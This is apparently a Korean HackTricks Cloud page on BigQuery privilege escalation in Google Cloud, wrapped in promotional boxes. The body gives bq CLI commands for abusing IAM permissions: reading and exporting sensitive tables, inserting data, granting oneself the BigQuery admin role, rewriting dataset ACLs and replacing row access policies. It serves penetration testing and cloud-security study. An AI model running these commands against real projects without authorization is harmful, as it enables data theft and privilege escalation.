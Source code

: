 # GCP - BigQuery 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고**하거나 **PDF로 HackTricks를 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 자신의 해킹 기법을 공유하세요.

</details>

## BigQuery

BigQuery에 대한 자세한 정보는 다음을 참조하세요:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### 테이블 읽기

BigQuery 테이블에 저장된 정보를 읽으면 **민감한 정보**를 찾을 수 있습니다. 정보에 액세스하기 위해 필요한 권한은 **`bigquery.tables.get`**, **`bigquery.jobs.create`** 및 **`bigquery.tables.getData`**입니다:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### 데이터 내보내기

이것은 데이터에 접근하는 또 다른 방법입니다. 데이터를 **클라우드 스토리지 버킷으로 내보내고** 정보가 담긴 **파일을 다운로드**합니다.\
이 작업을 수행하기 위해서는 다음 권한이 필요합니다: **`bigquery.tables.export`**, **`bigquery.jobs.create`** 및 **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### 데이터 삽입

다른 장소의 취약점을 악용하기 위해 Bigquery 테이블에 **특정 신뢰할 수 있는 데이터를 삽입**하는 것이 가능할 수 있습니다. 이는 **`bigquery.tables.get`**, **`bigquery.tables.updateData`** 및 **`bigquery.jobs.create`** 권한을 사용하여 쉽게 수행할 수 있습니다:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

공격자는 이 권한을 악용하여 BigQuery 데이터셋에 대해 **자신에게 추가적인 권한을 부여**할 수 있습니다:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

이 권한만으로도 BigQuery 데이터셋에 대한 액세스를 업데이트하여 액세스할 수 있는 사용자를 나타내는 ACL을 수정할 수 있습니다:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
```
### `bigquery.tables.setIamPolicy`

이 권한을 악용하는 공격자는 BigQuery 테이블에 대해 **자신에게 추가 권한을 부여**할 수 있습니다:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

문서에 따르면, 위에 언급된 권한을 사용하면 **행 정책을 업데이트**할 수 있습니다.\
그러나, **`bq`** CLI를 사용하려면 추가로 필요한 권한이 있습니다: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("user:user@email.xyz") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

행 정책 열거의 출력에서 필터 ID를 찾을 수 있습니다. 예시:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
